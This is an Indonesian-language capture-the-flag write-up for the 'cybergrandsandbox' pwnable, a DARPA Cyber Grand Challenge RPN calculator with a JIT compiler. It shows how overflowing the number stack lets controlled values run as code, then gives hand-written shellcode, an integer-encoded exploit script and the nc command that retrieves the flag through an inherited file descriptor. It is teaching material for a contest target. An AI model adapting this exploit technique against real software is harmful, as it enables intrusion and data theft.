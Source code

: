 # cybergrandsandbox

**Kategori:** Pwnable
**Points:** 2
**Deskripsi**

> [You'll need these](http://repo.cybergrandchallenge.com/boxes/)
>
> https://github.com/CyberGrandChallenge/cgc-release-documentation/blob/master/walk-throughs/running-the-vm.md
>
> [Pwn This](http://downloads.notmalware.ru/cybergrandsandbox_e722a7ec2ad46b9fb8472db37cb95713)
> 
> [This launches it](http://downloads.notmalware.ru/cybergrandsandbox_launcher_cf878d2811220c8793ae9b132d7fd490)
> 
> cybergrandsandbox_e722a7ec2ad46b9fb8472db37cb95713.quals.shallweplayaga.me:4347

## Write-up

Sesuai instruksi, kita diberikan sebuah binary untuk DARPA [Cyber Grand Challenge](www.darpa.mil/cybergrandchallenge/), yang tampaknya bukan executable biasa. Setelah membaca instruksinya, ternyata kita perlu menjalankan binary ini di virtual machine. Pengguna IDA Pro bisa menggunakan loader <http://idabook.com/cgc/> untuk bisa meload filenya.

Teknologi yang dipakai untuk mensetup virtual machine adalah Vagrant. Tadinya malas mencoba challenge ini, karena lambat sekali ketika mendownload file box dengan Vagrant (single connectiond ownload). Karena sudah pernah memakai Vagrant sebelumnya, saya ingat bahwa file .box bisa didownload dengan download manager dan ditambahkan secara manual dengan `vagrant box add`.  Setelah VM berjalan, saya bisa mencoba binary ini, yang cuma keluar teks `>`


     vagrant@cgc-linux-packer:~$ ./cybergrandsandbox-bin 
     > 

Setelah dipelajari source codenya, ternyata ini evaluator RPN, untuk menghitung 2 + 3, kita masukkan

     > 2 3 +
     5 (0x00000005)

Perhatikan bahwa dengan `strace` bisa dilihat bahwa binary ini tidak memakai syscall standar:

	vagrant@cgc-linux-packer:~$ strace ./cybergrandsandbox-bin 
	execve("./cybergrandsandbox-bin", ["./cybergrandsandbox-bin"], [/* 22 vars */]) = 0
	allocate(0x10008, 0, [0xb7fef000])      = 0
	allocate(0x1394, 1, [0xb7fed000])       = 0
	transmit(1, "> ", 2, > [2])               = 0
	receive(0, 1 2 +
	"1", 1, [1])                 = 0
	receive(0, " ", 1, [1])                 = 0
	receive(0, "2", 1, [1])                 = 0
	receive(0, " ", 1, [1])                 = 0
	receive(0, "+", 1, [1])                 = 0
	receive(0, "\n", 1, [1])                = 0
	transmit(1, "3", 1, 3[1])                = 0
	transmit(1, " (0x", 4,  (0x[4])             = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "0", 1, 0[1])                = 0
	transmit(1, "3", 1, 3[1])                = 0
	transmit(1, ")\n", 2, )
	[2])              = 0
	transmit(1, "> ", 2, > [2])               = 0

Yang menarik adalah: eksekusi dilakukan dengan JIT. Tepatnya setiap token akan menghasilkan kode mesin, sesuai dengan instruksinya. Untuk token angka, angka tersebut diletakkan di alamat memori bawah, jadi kira-kira begini (alamat hanya ilustrasi saja):


Memori | Isi
-------|-------
00001  | var8 = 1
00002  | var9 = 2
...    | ...
00040  | ret
...    | ...
00098  | var9
00099  | var8


Intinya adalah: Jika kita menginput bilangan terlalu banyak, maka ketika dijalankan, kode mesin yang dihasilkan akan menimpa sampai bagian yang berisi nilai variabel. Karena kita bisa mengendalikan nilai variabel, kita bisa membuat shellcode yang akan dijalankan.

Kita harus menulis sendiri shell code untuk CGC ini karena syscall yang dipakai berbeda dengan binary linux biasa. Setelah membaca `man`  mengenai `transmit` dan `receive`, saya bisa mengetahui syscall number untuk keduanya 

     The transmit function is invoked through system call number 2.
     The receive function is invoked through system call number 3.
     
Perhatikan di awal bahwa ada binary yang melaunch program utama, isinya adalah skrip Python:

```python
#!/usr/bin/env python

import os

flag = open("/home/cybergrandsandbox/flag")
os.execv("/home/cybergrandsandbox/cybergrandsandbox-bin", ["/home/cybergrandsandbox/cybergrandsandbox-bin"])
```

Karena skrip tersebut menggunakan `os.execv` (dan bukan `os.system`), maka file handle untuk `flag` masih terbuka, sesuai dengan spesifikasi: penomoran file handle terurut, dan setelah 0 (stdin), 1 (stdout), dan 2 (stderr), maka flag pasti memakai file handle 3. Dari fakta tersebut, saya membuat shell code ini:


    bits 32
    nop
    nop
    nop
    nop
    sub ecx, 100 
    mov eax, 3
    mov ebx, 3
    mov edx, 90
    mov esi,0
    int 0x80
    mov ebx, 1
    mov eax, 2
    int 0x80
    x:
    jmp x

	
Saya memakai beberapa `nop` di depan supaya yakin alignment instruksi berikutnya aman. Untuk buffer membaca file, saya menggunakan `ecx-100` (alamat ini adalah alamat kode yang sudah dieksekusi, jadi aman), berikutnya saya menggunakan syscall `receive` yang nomornya adalah 3 (`eax = 3`) dengan file handle 3 (`ebx = 3`), dan saya baca 90 byte (`edx = 90`), dan saya tidak ingin tahu berapa byte yang terbaca (`esi = 0`). Berikutnya stelah flag terbaca, saya tuliskan di stdout.

Karena syscal mempertahankan (*preserve*) semua register (kecuali `eax` yang merupakan nilai akhir), maka berikutnya saya cuma perlu menset `eax = 2` (syscall untuk transmit), dan menset file handle stdout yang nilainya adalah 1 (`ebx = 1`), sisanya masih sama dengan sebelumnya (menuliskan 90 byte dari `ecx-100`). Setelah itu saya stop programnya dengan jump ke alamat saat ini (`x: jmp x`). 

Saya agak kurang memperhatikan bahwa angka yang dimasukkan boleh berupa hex, jadi exploit saya ini memakai integer:

```python
a = "\t".join([str(x) for x in range(0, 281)]) + "\t"
    
#a += "-1869574000\t" * 9 
b = [2425393296, 3093621123, 3, 955, 5945856, 12451840, 3439329280, 113536,45613056, 3439329280, 16706432]
a += "\t".join([str(x) for x in reversed(b)])
a += "\t0\t0"
#a += "\t[" * 10 #nop
print a
```

Saya tidak membuat kode khusus untuk konek ke server, untuk menjalankannya:

	$ (python ./exp.py; cat) | nc cybergrandsandbox_e722a7ec2ad46b9fb8472db37cb95713.quals.shallweplayaga.me 4347
	> The flag is: g3t 0u+ 0f my 54ndb0x...

Flagnya:

     g3t 0u+ 0f my 54ndb0x...
	

